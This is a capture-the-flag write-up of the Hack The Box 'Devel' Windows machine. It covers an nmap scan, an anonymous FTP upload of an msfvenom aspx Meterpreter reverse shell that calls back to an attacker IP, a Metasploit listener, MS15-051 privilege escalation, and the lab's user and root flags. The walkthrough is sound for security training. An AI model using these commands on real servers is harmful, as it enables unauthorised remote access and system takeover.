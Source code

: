 # Devel
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/08fa0240-d04c-403e-8edd-e524f901862f)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.5 --min-rate 1000  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-08 07:35 PDT
Nmap scan report for 10.10.10.5
Host is up (0.026s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.08 seconds
```

1. Based from the nmap results, the machine runs a web application and opens a anonymous ftp login.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/56e020b6-16b2-4033-9849-e486a2b6f17f)


2. Did a small research about the service version for http, found a CVE that could be our interest -> https://www.exploit-db.com/exploits/15803


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e88dcd00-0758-481f-98d1-98661800d40d)


3. Anyway, let's login to ftp first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bd844e68-ee68-4ff0-a8fd-af981fb44c59)


4. Traversing the directory found no files at all.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/90f5c1ab-37e1-4bbe-8e45-be4c8db31907)


5. Thing to note, since we're in a ftp server, we **need to check** if we can upload a file from our local machine to this ftp server.
6. For example let's make our reverse shell payload using **msfvenom**.
7. We want to save the payload in asp or aspx format file. Why?? Because IIS execute that file.

> COMMAND 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.20 lport=1337 -f aspx > reverse_shell.aspx
```

### FLOW

```
1. Create reverse shell payload using msfvenom.
2. Set listener on the specfied port.
3. run put file.aspx on the ftp server (to download the file from our local machine).
4. Then trigger the reverse shell payload by accessing it --> http://ip/file.aspx.
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/715111d5-aa90-4e10-a0b3-f1bb3f093642)


8. It's stuck there, confused why.
9. Succeed got shell after used the msfconsole listener.


> How to setup

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1337
exploit
```


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/126da244-7e93-469e-b608-c196d4208828)


10. Seems like we need to do privesc even to get the user flag.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c4fb1d32-d90a-4cf4-9227-6d5068d87d18)


11. Let's run a suggester.
12. Running ps, we know that we don't need to migrate. Because w3wp.exe is used to run webapp for IIS.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/14b507b2-7327-4695-9c1c-fd730e8b65ed)


> RESULT FOR SUGGESTER

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d5347d1-1fe0-4573-a9fe-b9e002f3d2b2)


13. Awesome! We have many options. But to skip trial and error, let's use the basic module for privesc in windows pentest --> `exploit/windows/local/ms15_051_client_copy_image`.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e98e7c08-1c96-493d-90fb-3f4bfe658352)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/94dbc91d-de28-4883-ab33-440e0aa60a5e)


14. Got rooootttttt.

> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ac82aedc-7c68-48fd-b1a5-90c0207a584d)


## USER FLAG

```
cf9f33d569de576f36f2d0eb7c238edf
```

> GETTING ROOT FLAG


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3a7a0354-e211-4d13-8d64-b9598f7098ba)


## ROOT FLAG

```
4d4ad08f74ccbd3f2e5b39eb8979260d
```

